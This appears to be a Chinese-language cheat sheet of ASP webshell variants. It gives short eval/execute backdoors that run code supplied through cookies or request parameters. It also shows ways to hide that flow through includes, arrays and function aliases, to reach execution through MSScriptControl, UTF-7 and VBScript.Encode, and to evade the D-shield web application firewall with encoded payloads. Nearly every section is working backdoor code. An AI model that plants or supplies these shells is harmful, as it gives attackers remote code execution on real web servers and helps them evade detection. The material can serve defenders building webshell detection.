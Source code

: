 
# source

#### cookie
```
请求包
GET /1.asp HTTP/1.1
Host: 192.168.66.134
Cookie: response.write(111)'
```

```
<%
eval(""+Request.Cookies)
%>
```

#### 编码
```
<%execute(unescape("eval%20request%28%22aaa%22%29"))%>
```

```
<%Eval(Request(chr(35)))%>
```

#### 语法
```
<%Eval(Request(chr(35))+"")%>
```

# 数据流
#### 文件
1.asp
```
<%
code=Request(1)
%>
```

2.asp
```
<!--#include file="1.asp" -->
<%
response.write(code)
%>
```

访问2.asp?1=response.write(1111)


#### 函数传递
```
<%@LANGUAGE="javascript"%>
<%
param=Request(1)+''
func=eval
func(param)
%>
```

#### 数组
```
<%
x=Request(1)
param = Array(x,"xxx")
eval(param(0))
%>
```


#### 多个<%%>
```
<%code=Request(1)%>

<%
Eval(code+"")
%>
```

# sink

#### 代码执行
Eval、Execute、ExecuteGlobal

#### 组件
2003可以，2008找不到组件
```
<%
set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
ms.Language="VBScript"
ms.AddObject "Response", Response
ms.AddObject "request", request
ms.AddObject "session", session
ms.AddObject "server", server
ms.AddObject "application", application
ms.ExecuteStatement ("ex"&"e"&"cute(request(1))")%>
```

#### utf7编码
```
<%@ codepage=65000%><% response.Charset="936"%>
<%
e+j-v+j-a+j-l(request(1))
%>
```


#### VBScript.Encode
http://127.0.0.1/1.asp?1=response.write(1)
```
<%@ LANGUAGE = "VBScript.Encode"%>
<%#@~^EAAAAA==n7lsvD;E/DcF*#hAUAAA==^#~@%>
```

# waf
#### waf逻辑
针对d盾，0级
```
<%
Function bypass():
    dim bypass
End Function
eval(unescape("%65%76%61%6c%28%72%65%71%75%65%73%74%28%31%29%29"))
%>
```

# 参考
新仙剑之鸣、LandGrey
